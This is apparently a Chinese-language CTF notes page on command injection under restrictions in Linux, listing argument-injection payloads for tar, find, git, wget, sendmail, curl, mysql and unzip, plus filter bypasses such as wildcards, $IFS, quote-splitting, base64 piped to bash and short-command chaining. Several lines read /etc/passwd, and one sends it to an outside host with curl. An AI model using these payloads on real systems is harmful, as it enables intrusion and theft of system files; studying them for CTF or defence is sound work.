 # 带限制的shell命令执行

这是在linux下的带限制的shell命令执行总结

## 收藏文章

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

https://www.anquanke.com/post/id/107336

## 可控位置

### 参数部分可控

1. 尝试用`;,&,|,反引号`等来直接执行命令
2. 限制第一种情况,翻一翻参数表,找到可利用的参数



#### 参数注入

##### tar

关键参数:--use-compress-program=

可以造成命令执行

例子:

```shell
tar --use-compress-program='cat /etc/passwd' -cf 2.tar *
cat 2.tar
```



##### find

关键参数: -exec 

例子:` find . -type f -exec 命令 \; -quit`

` find . -type f -exec cat /etc/passwd \; -quit`

` find . -type f -exec echo hello \; -quit`



##### git

关键参数:--open-files-in-pager=

例子:`git grep -i --line-number -e '--open-files-in-pager=命令;' master`

##### wget

关键参数:--directory-prefix

下载example.php

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

下载并将其保存在特殊位置

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

##### sendmail

发送mail.txt。设置来信人为:from@sth.com

`sendmail -t -i -f from@sth.com < mail.txt`

打印/etc/passwd的内容

`sendmail -t -i -f from@sth.com -C/etc/passwd -X/tmp/output.txt < mail.txt`

##### curl

关键参数:-F

下载网页内容:

`curl http://example.com`

将/etc/passwd 发送到http://example.com:xxxx配合监听获取文件内容

`curl -F password=@/etc/passwd http://example.com`

![](http://ww1.sinaimg.cn/large/006pWR9agy1g68qtlpvsqj30nj0iiq4n.jpg)

##### mysql

执行sql语句

`mysql -uuser -ppassword -e  SELECT sth FROM table`

执行命令

`mysql -uuser -ppassword -e  \! 命令`

##### untar

Unpack all `*.tmp` files from `archive.zip` into `/tmp` directory.

```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));
```

Unpack all `*.tmp` files from `archive.zip` into `/var/www/html` directory.

```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');
```

### 命令部分可控



1. 尝试直接执行命令



## 限制条件

### 字符限制

#### 利用linux统配符来匹配文件绕过字符限制

##### 通配符

```shell
* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符，e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
[! ] 同 ^
```





执行cat命令可以用

`/b?n/c?t .....`

`/bin/c[0-z]t flag`

....自行发挥



#### 某些特殊字符的相互替换

##### 空格

\t和\r和\n代替空格

`$IFS$9` 符号 `${IFS}` 符号代替空格

利用重定向符来代替空格

```shell
cat<>flag
cat<flag
```

##### 杂

- ${PS2} 对应字符 ‘>’
- ${PS4} 对应字符 ‘+’
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串

### 单词黑名单

#### 利用"",'',和\`\` ,\,$@来绕过单词黑名单

如`l''s,l""s`,l\`\`s,l\s,l$@s

#### 利用字符串操作如base64,rot等等来绕过单词黑名单

\`echo "base64编码"|base64 -d\`和`echo "base64编码"|base64 -d|bash`

#### 变量名拼接

`a=ec;b=ho;$a$b hello`



### 输入长度限制

#### 短命令执行

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

关键命令:

- ls 

-t :按照最后修改时间排序

- sh

#### 实例

```shell
>lo\\
>\ hel\\
>echo\\
ls -t>_
sh _
```

